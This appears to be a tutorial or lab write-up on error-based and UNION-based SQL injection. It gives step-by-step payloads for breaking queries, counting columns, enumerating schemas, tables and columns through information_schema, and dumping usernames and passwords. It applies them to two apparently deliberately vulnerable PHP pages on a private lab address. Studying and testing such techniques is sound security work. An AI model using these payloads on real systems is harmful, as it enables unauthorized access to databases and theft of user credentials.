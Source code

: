 ### Error-based SQL Injection

Error-based SQL Injection is a technique used to gather information about the database structure and its content by causing the database server to generate error messages. These error messages can reveal valuable information about the underlying database schema and its data.

#### Types of Error-based SQL Injection Techniques

1. **Query Break**
   - Inject characters like `'`, `"`, or other special characters to break the original query and generate error messages.
   
   Example:
   ```sql
   ' 
   " 
   ```

2. **Query Joined**
   - Use comments and logical operators to manipulate the query and observe how the application responds.
   
   Example:
   ```sql
   --+ 
   # (%23) 
   or '1
   or 1='1
   AND '1
   AND 1='1
   ```

3. **Determine Number of Columns**
   - Use the `ORDER BY` clause to identify the number of columns in the query. Increase the column index until an error occurs to determine the total number of columns.
   
   Example:
   ```sql
   ?id=1' order by 1 --+
   ?id=1' order by 2 --+
   ?id=1' order by 3 --+
   ?id=1' order by 4 --+
   ?id=1' order by 5 --+
   ?id=1' order by 6 --+
   ?id=1' order by 7 --+
   ?id=1' order by 8 --+
   ?id=1' order by 9 --+
   ```

4. **Run Multiple SELECT Statements Using UNION ALL**
   - Use the `UNION ALL` operator to combine results from multiple SELECT statements. This can be used to extract unauthorized information.
   
   Example:
   ```sql
   ?id=-1' union all select 1,2,3,4,5 --+
   ?id=-1' union all select database(), current_user, 3, 4, 5 --+
   ?id=-1' union all select database(), version(), 3, 4, 5 --+
   ```

5. **Retrieve Database Names**
   - Extract the names of all databases using queries against the `information_schema` tables.
   
   Example:
   ```sql
   ?id=-1' union all select table_schema, 2, 3, 4, 5 from information_schema.tables GROUP BY table_schema --+
   ```

6. **Retrieve Table Names**
   - Extract table names from a specific database using `information_schema`.
   
   Example:
   ```sql
   ?id=-1' union all select table_name, 2, 3, 4, 5 from information_schema.tables where table_schema="employe_db" --+
   ```

7. **Retrieve Column Names**
   - Extract column names from a specific table within a database.
   
   Example:
   ```sql
   ?id=-1' union all select column_name, 2, 3, 4, 5 from information_schema.columns where table_schema="employe_db" AND table_name="users" --+
   ```

8. **Extract Data from Columns**
   - Retrieve sensitive data such as usernames and passwords from a table.
   
   Example:
   ```sql
   ?id=-1' union all select name, password, 3, 4, 5 from users --+
   ```

9. **Concatenate Data for Output**
   - Use `GROUP_CONCAT` to concatenate and display data in a single line.
   
   Example:
   ```sql
   ?id=-1' union all select group_concat(name), group_concat(password), 3, 4, 5 from users --+
   ```

## Example SQL Injection Queries

### Error-Based String SQL Injection

#### error-based-string-get.php

**Example URL:**
- `http://192.168.43.2/error-based-string-get.php`


**Original Query in the File:**
```sql
SELECT * FROM users WHERE id=('1')
```

**Injection Queries:**

```sql
-1') UNION ALL SELECT CURRENT_USER(), 2, 3, 4, 5 --+
```

```sql
-1') UNION ALL SELECT table_schema, 2, 3, 4, 5 FROM information_schema.tables GROUP BY table_schema --+
```

```sql
-1') UNION ALL SELECT table_name, 2, 3, 4, 5 FROM information_schema.tables WHERE table_schema="employe_db" --+
```

```sql
-1') UNION ALL SELECT COLUMN_NAME, 2, 3, 4, 5 FROM information_schema.columns WHERE table_schema="employe_db" AND TABLE_NAME="users" --+
```

```sql
-1') UNION ALL SELECT name, password, 3, 4, 5 FROM employe_db.users --+
```

```sql
-1') UNION ALL SELECT GROUP_CONCAT(name), GROUP_CONCAT(password), 3, 4, 5 FROM employe_db.users --+
```

```sql
-1') UNION ALL SELECT GROUP_CONCAT(name), GROUP_CONCAT(password), 3, 4, 5 FROM employe_db.users LIMIT 0,1 --+
```

**Explanation:**
The `error-based-string-get.php` file is vulnerable to SQL Injection. The query `SELECT * FROM users WHERE id=('1')` is used with a filter that attempts to control input. However, attackers can bypass this filter by manipulating the input with the `UNION` operator. For example, they use payloads like `-1') UNION ALL SELECT CURRENT_USER(), 2, 3, 4, 5 --+` to combine results from multiple queries. This allows them to retrieve sensitive data such as the current user, database schema, table names, column names, and even user credentials from the `employe_db` database. By chaining these payloads, attackers can effectively extract detailed information despite the initial filter.

#### error-based-string-post.php

**Example URL:**
- `http://192.168.43.2/error-based-string-post.php`

**Original Query in the File:**
```sql
SELECT * FROM users WHERE id='1'
```

**Injection Queries:**

```sql
1' UNION ALL SELECT CURRENT_USER(), 2, 3, 4, 5 -- 
```

```sql
1' UNION ALL SELECT table_schema, 2, 3, 4, 5 FROM information_schema.tables GROUP BY table_schema --+
```

```sql
1' UNION ALL SELECT table_name, 2, 3, 4, 5 FROM information_schema.tables WHERE table_schema="employe_db" --+
```

```sql
1' UNION ALL SELECT COLUMN_NAME, 2, 3, 4, 5 FROM information_schema.columns WHERE table_schema="employe_db" AND TABLE_NAME="users" --+
```

```sql
1' UNION ALL SELECT name, password, 3, 4, 5 FROM employe_db.users --+
```

```sql
1' UNION ALL SELECT GROUP_CONCAT(name), GROUP_CONCAT(password), 3, 4, 5 FROM employe_db.users --+
```

**Explanation:**
The `error-based-string-post.php` file is also vulnerable to SQL Injection. The query `SELECT * FROM users WHERE id='1'` is used with user-provided input, which can be manipulated by attackers. By injecting payloads such as `1' UNION ALL SELECT CURRENT_USER(), 2, 3, 4, 5 --`, attackers can execute additional SQL commands to combine query results. This approach allows them to bypass the filter and access sensitive information, including the current database user, schema details, table names, column names, and user passwords. The `GROUP_CONCAT` function in payloads like `1' UNION ALL SELECT GROUP_CONCAT(name), GROUP_CONCAT(password), 3, 4, 5 FROM employe_db.users --+` enables attackers to gather all usernames and passwords into a single result, facilitating data extraction from the `employe_db` database.

---

These explanations provide a detailed view of how each SQL Injection example operates, highlighting the impact and techniques used in each case.
